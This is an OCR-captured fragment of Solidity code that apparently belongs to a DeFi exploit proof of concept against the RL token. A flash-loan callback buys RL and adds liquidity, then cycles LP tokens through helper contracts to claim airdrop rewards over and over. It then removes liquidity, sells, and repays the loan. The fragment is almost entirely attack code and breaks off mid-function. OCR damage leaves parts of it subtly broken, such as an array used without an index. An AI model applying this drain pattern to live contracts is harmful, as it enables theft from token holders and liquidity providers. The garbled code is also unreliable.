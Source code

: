 │ Code:                                                                                                                                                                                                                                                │
│     function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{                                                                                                                                │
│         buyRLAndAddLiquidity();                                                                                                                                                                                                                      │
│         //claimAirDrop                                                                                                                                                                                                                               │
│         for(uint i = 0; i < contractAddress.length; i++){                                                                                                                                                                                            │
│             Pair.transfer(contractAddress, Pair.balanceOf(address(this)));                                                                                                                                                                           │
│             (bool success,) = contractAddress.call(abi.encodeWithSignature("airDropReward(address)", address(this)));                                                                                                                                │
│             require(success);                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         removeLiquidityAndSellRL();                                                                                                                                                                                                                  │
│         USDT.transfer(msg.sender, 450_000 * 1e18);                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function buyRLAndAddLiquidity() public{                                                                                                                                                                                                          │
│         address [] memory path = new address[](2);                                                                                                                                                                                                   │
│         path[0] = address(USDT);                                                                                                                                                                                                                     │
│         path[1] = address(RL);                                                                                                                                                                                                                       │
│         Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                                │
│             150_000 * 1e18,                                                                                                                                                                                                                          │
│             0,                                                                                                                                                                                                                                       │
│             path,                                                                                                                                                                                                                                    │